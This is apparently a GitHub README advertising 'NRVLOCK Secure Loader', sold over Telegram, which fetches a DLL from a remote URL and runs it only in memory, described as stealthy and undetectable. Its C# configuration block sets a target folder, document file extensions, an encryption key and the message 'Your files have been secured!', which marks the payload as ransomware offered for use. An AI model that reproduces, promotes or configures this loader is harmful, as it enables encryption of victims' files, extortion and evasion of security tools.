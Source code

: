 # 🚀 NRVLOCK Secure Loader  
FOR BUY PRÍVATE NRVLOCK DLL + LICENCE KEY CONTACT ME ON TELEGRAM @CyberNev or on HF @CyberNrv


## ⚠️ Disclaimer  
**© 2024 CyberNrv. All rights reserved.**  
This software is **private and confidential**. **Sharing, modifying, or redistributing this code is strictly prohibited**. Unauthorized use, distribution, or analysis of this loader **violates the terms set by the author**.  

## 🔒 Purpose  
This loader is designed to **securely load NRVLOCK.dll into memory** without leaving any traces on disk.  
It ensures **stealth execution** and **memory-only operations**, making it highly efficient and undetectable.  

## 🔧 How It Works  
1️⃣ **Downloads the remote NRVLOCK.dll** from a predefined URL.  
2️⃣ **Loads the DLL directly into memory** (without writing to disk).  
3️⃣ **Calls NRVRUN dynamically**, passing customizable arguments.  
4️⃣ **Cleans memory after execution**, leaving no traces.  

## 🔹 Configuration  
To use this loader, replace the following arguments with your own values:  
```csharp
string target = "C:\\Users\\Public\\Documents";  // 📂 Target directory
string extensions = ".txt;.docx";  // 📝 File extensions to process
string key = "YourEncryptionKey";  // 🔑 Encryption key
string lkey = "YourLicenseKey";  // 🔏 License key
bool ViewConsole = true;  // 🖥️ Show/hide console
string msg = "Your files have been secured!";  // ✉ Custom message after execution
string dllUrl = "https://yourserver.com/NRVLOCK.dll";  // 🔗 NRVLOCK.dll download URL
